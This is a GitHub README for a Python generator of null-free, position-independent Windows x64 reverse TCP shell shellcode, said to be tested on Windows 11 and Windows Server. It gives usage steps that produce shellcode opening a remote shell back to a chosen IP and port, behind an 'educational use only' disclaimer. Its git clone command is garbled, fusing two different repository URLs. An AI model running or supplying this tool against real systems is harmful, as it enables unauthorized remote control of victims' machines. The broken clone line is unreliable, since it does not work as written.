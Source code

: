 # Windows-x64---PIC-Null-Free-TCP-Reverse-Shell-Shellcode
Windows/x64 - PIC Null-Free TCP Reverse Shell Shellcode. Platform: Windows X64 # Tested on: Windows 11 Home/Windows Server 2022 Standard/Windows Server 2019 Datacenter

## This is a Python script designed to generate shellcode for creating reverse TCP shells, primarily for educational and research purposes. The shellcode generated by this tool can be used to facilitate remote access to systems during penetration testing or other security assessments.
Usage

-Clone the Repository:

```bash
git clone https://github.com/Type2Tech/Shellcode-Generator.git](https://github.com/blackmagic2023/Windows-x64---PIC-Null-Free-TCP-Reverse-Shell-Shellcode.git
```

-Navigate to the Directory:

```bash
cd Windows-x64---PIC-Null-Free-TCP-Reverse-Shell-Shellcode
```

- Run the Script:

```css
python shellcode_generator.py -i [YOUR_IP_ADDRESS] -p [PORT_NUMBER] -o [OUTPUT_FILENAME]
```
(Replace [YOUR_IP_ADDRESS] with your server's IP address and [PORT_NUMBER] with the desired port for the reverse shell connection. Optionally, you can specify an output filename with -o).

## Disclaimer Please Note:
This tool is intended for educational and research purposes only. Misuse of this tool for unauthorized access to computer systems or networks is illegal and unethical. Use it responsibly and only on systems you own or have explicit permission to test.

By using this tool, you agree that the developers and contributors are not liable for any misuse or damage caused by its usage.
